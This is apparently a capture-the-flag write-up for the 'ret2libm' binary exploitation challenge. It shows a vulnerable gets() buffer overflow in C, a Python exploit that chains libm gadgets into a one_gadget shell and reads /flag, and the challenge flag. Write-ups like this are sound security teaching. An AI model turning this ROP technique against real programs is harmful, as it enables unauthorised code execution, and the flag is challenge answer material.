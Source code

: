 # ret2libm (Binary Exploitation)

This is a somewhat easy ROP challenge playing off `libm` instead of `libc`. libm is just the C math library, but it suprisingly lacks a lot of useful gadgets. The intended solution is just to somehow compute a useful rop chain with the gadgets in libm.

The challenge leaks the address of `fabs` in libm and then reads a buffer overflow with `gets`. All protections except stack cookies are enabled.
```c
    char yours[8];

    printf("Check out my pecs: %p\n", fabs);
    printf("How about yours? ");
    gets(yours);
    printf("Let's see how they stack up.");
```

My solution involved 2 gadgets:
- A standard `pop rax; ret` gadget
- An `add rax, rdx; jmp rax` gadget

At the end of the main(), it turns out the $RDX register already contains a libc pointer. We can just add the offset of a `one_gadget` there and get a shell.
```py
leak = r.recvuntil(b"\nHow").decode().split("\n")[-2].split(" ")[-1]
leak = eval(leak) - 0x31cf0
print(hex(leak)) # libm base

def p64(i):
    return i.to_bytes(8, byteorder="little")

ADDRAXRDXJUMPRAX = 0x000000000000f39f + leak
POPRAX_RET = 0x000000000001a3c8 + leak
OFFSET = 0x4f2a5 - 0x3ed8c0
OFFSET = OFFSET & (2**64 - 1)

rop = b"aaaabbbbccccdddd"
rop += p64(POPRAX_RET)
rop += p64(OFFSET)
rop += p64(ADDRAXRDXJUMPRAX)

r.sendline(rop)
r.sendline(b"cat /flag")
```

It appears that libm is actually at a constant offset from libc in practice, so the challenge could also be solved with a standard rop2libc.

```
irisctf{oh_its_ret2libc_anyway}
```
